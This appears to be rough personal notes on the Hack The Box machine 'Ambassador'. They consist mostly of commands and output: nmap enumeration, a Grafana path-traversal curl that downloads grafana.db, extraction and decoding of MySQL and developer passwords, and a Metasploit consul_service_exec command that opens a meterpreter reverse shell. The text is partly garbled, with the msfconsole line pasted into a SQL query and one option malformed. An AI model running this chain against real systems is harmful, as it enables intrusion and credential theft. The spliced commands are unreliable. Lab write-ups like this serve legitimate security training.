# Ambassador - Hack The Box (Medium)

## Info Gathering

Pings were unsuccessful, so we had to use the nmap bypass with:

> sudo nmap -sC -sV -Pn 10.10.11.183 -p-

Port 22 open
Port 80 open
Port 3000 open ????

### The Webpage on port 80

On this URL http://10.10.11.183/posts/welcome-to-the-ambassador-development-server/

We find that username to SSH is developer, and that DevOps is supposed to give it to us

### Using the nmap enumeration script we found more ports

"""
nmap -script http-enum.nse 10.10.11.183
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-03 19:31 EST
Nmap scan report for 10.10.11.183
Host is up (0.049s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
| http-enum: 
|_  /images/: Potentially interesting directory w/ listing on 'apache/2.4.41 (ubuntu)'
3000/tcp open  ppp
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 21.00 seconds
"""

3306 for MySQL is open
Might be exploitable with metasploit


3000 is exploitable Grafana Version 8.3.0

> curl --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../var/lib/grafana/grafana.db -o grafana.db

> sqlite3 grafana.db                                             148 ⨯ 1 ⚙
SQLite version 3.40.0 2022-11-16 12:10:08
Enter ".help" for usage hints.
sqlite> .tables
alert                       login_attempt             
alert_configuration         migration_log             
alert_instance              ngalert_configuration     
alert_notification          org                       
alert_notification_state    org_user                  
alert_rule                  playlist                  
alert_rule_tag              playlist_item             
alert_rule_version          plugin_setting            
annotation                  preferences               
annotation_tag              quota                     
api_key                     server_lock               
cache_data                  session                   
dashboard                   short_url                 
dashboard_acl               star                      
dashboard_provisioning      tag                       
dashboard_snapshot          team                      
dashboard_tag               team_member               
dashboard_version           temp_user                 
data_source                 test_data                 
kv_store                    user                      
library_element             user_auth                 
library_element_connection  user_auth_token           
sqlite> select * from data_source;
2|1|1|mysql|mysql.yaml|proxy||dontStandSoCloseToMe63221!|grafana|grafana|0|||0|{}|2022-09-01 22:43:03|2023-01-04 00:11:41|0|{}|1|uKewFgM4z

> mysql -h 10.10.11.183 -u grafana -p

MySQL [whackywidget]> select * from users;sudo msfconsole -q -x "use multi/misc/consul_service_exec; set payload linux/x86/meterpreter/reverse_tcp;set rhosts 10.10.11.183; set 10.10.14.2; set acl_token bb03b43b-1d81-d62b-24b5-39540ee469b5; set lport 4444; exploit"
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+

base64 deencoded: = anEnglishManInNewYork027468



sudo msfconsole -q -x "use multi/misc/consul_service_exec; set payload linux/x86/meterpreter/reverse_tcp;set rhosts 10.10.11.183; set 10.10.14.2; set acl_token bb03b43b-1d81-d62b-24b5-39540ee469b5; set lport 4444; exploit"


bb03b43b-1d81-d62b-24b5-39540ee469b5